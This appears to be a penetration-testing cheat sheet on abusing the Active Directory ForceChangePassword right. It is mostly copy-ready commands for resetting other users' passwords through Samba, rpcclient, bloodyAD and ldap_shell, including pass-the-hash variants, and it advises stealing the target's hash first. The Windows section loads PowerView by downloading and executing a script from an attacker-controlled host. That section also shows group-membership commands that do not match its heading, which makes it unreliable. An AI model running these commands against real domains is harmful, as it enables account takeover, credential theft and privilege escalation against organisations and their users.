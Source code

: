 # Abusing ForceChangePassword

If an user have ForceChangePassword over another user can change that user password. If you have other options to steal the hash from that user, I strongly recommend you to do it before change their password. That hash could be valid for other users if password is reused. 

### From Linux (enternally recomended):

Samba tools -> `net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'<password>' -S '<dc_ip>'`

rpcclient -> `-U <domain>/<controlled_user> <dc-ip>`

`rpcclient $> setuserinfo <target_user> 23 <new_password>`

BloodyAD -> `bloodyAD --host 'dc_ip' -d '<domain>' -u '<user>' -p '<password>' set password <target_user> '<new_password>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`set password <target_user> <new_password>`

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' set password '<target_user>' '<new_password>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`set password <target_user> <new_password>`

<br>

### From Windows (internally):

`net group <group> <user> /add /domain`

Additionally can be done with Active directory module (powershell module):

`Add-ADGroupMember -Identity '<group>' -Members '<user>'`

Also is possible with powerview module:

Load module -> `IEX (new-object net.webclient).downloadstring('http://your_evil_ip_or_domain/powerview.ps1')`

`Add-DomainGroupMember -Identity '<group>' -Members '<user>'`






